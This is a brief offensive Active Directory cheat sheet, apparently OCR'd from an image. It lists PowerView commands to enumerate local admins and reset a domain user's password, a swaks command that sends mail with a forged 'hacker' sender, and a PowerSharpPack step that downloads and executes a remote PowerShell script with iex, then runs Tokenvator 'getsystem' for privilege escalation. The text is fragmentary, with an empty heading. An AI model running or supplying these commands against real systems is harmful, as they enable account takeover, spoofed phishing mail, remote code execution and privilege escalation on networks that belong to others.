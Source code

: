 View local admins on computer

```powershell
Find-GPOComputerAdmin –Computername <ComputerName>
```

List GPO’s

Reset user PW through PowerView

```powershell
Set-DomainUserPassword -Identity User -Verbose
```

Send mail with swaks

```shell
swaks --to w@domain.com --server 192.168.1.1 --body "Hello" --header "Subject: Issues"  --from hacker@domain.com
```

PowerSharpPack

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')
PowerSharpPack -Tokenvator -Command "getsystem powershell.exe"
```